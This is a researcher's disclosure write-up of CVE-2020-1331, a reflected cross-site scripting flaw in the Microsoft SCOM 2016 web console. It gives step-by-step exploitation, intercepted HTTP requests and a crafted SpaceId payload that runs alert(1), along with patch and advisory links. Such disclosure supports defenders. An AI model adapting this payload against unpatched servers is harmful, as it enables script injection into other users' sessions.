 ```yaml
---
layout: post
title: CVE-2020-1331
permalink: /CVE-2020-1331/
category: cves
order: 1
---
```


# Microsoft SCOM 2016: Reflected Cross Site Scripting 
This article is going to describe in detail the [Reflected Cross Site Scripting (XSS)][1] vulnerability I found in the Microsoft System Center Operations Manager (SCOM) 2016.

Normally XSS vulnerabilities are very straightforward to find them. When the application fails to perform proper input validation/output encoding, it's just a matter of finding the correct HTTP parameter to inject the *alert(1)* and it pops-up in browser with little to no effort. 

However, it wasn't the case in SCOM 2016.
Most of the pages were performing proper input validation, except one. 
Most of the pages were performing output encoding, except one.
And for the best of luck of a pentester, they were linked: the page lacking output encoding was consuming data stored in session by the page lacking input validation. I just had to connect the dots and craft the specific payload to fit in the existing code.

## Exploitation steps

**1** - After logon, intercept the requests with a http-proxy (BurpSuite, ZAP), click on any of the available options on the Left Side Panel: *Monitoring*, *Favorites*.

**2** - After a few requests, the following one is sent:

**Original Request**

```
GET /OperationsManager/InternalPages/NavigationTree.aspx?SpaceId=1002&ViewId=Favorites_Overview HTTP/1.1
Host: [HOSTNAME]
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://[HOSTNAME]/OperationsManager/default.aspx?ViewType=Overview&ViewID=Favorites_Overview
Connection: Keep-Alive
Cookie: ASP.NET_SessionId=[REDACTED]; JavaErrorShown=true; 
Upgrade-Insecure-Requests: 1
```
**3** - Inject the following payload into *SpaceId* query string parameter:

```
abc%3E%3C","00000000-0000-0000-0000-000000000000");alert(1);//%3E
```

**Modified Request**

```
GET /OperationsManager/InternalPages/NavigationTree.aspx?SpaceId=abc%3E%3C","00000000-0000-0000-0000-000000000000");alert(1);//%3E&ViewId=00000000-0000-0000-0000-000000000000 HTTP/1.1
Host: [HOSTNAME]
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: [HOSTNAME]
Connection: Keep-Alive
Cookie: ASP.NET_SessionId=[REDACTED]; JavaErrorShown=true; 
Upgrade-Insecure-Requests: 1
```

The attack is applicable to any *viewID* value and every request with *SpaceId* query string parameter.

**4** - Reload the homepage, */OperationsManager* on this case, and voilà. The expected *alert(1)* pops-up. 


![Alert(1) pop-up](/assets/img/xss_1.png)


## Fix Patch
[Download](https://download.microsoft.com/download/2/c/2/2c24ee98-49b3-48d1-81ad-d741ca81be10/SCOM2016HotfixKB4563076.EXE)

## Microsoft Acknowledgement
[Microsoft Security Advisory
](https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-1331)

[Microsoft Support CVE-2020-1331 article](https://support.microsoft.com/en-us/help/4566040/prevent-javascript-injection-in-operations-manager-2016-web-console)

## Vulnerability Timeline

* Reported to Microsoft on 16-Jan-2020
* Fix patch available on 09-Jun-2020

## External references

[https://nvd.nist.gov/vuln/detail/CVE-2020-1331
](https://nvd.nist.gov/vuln/detail/CVE-2020-1331)

[https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-1331](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-1331)

[1]:https://owasp.org/www-community/attacks/xss/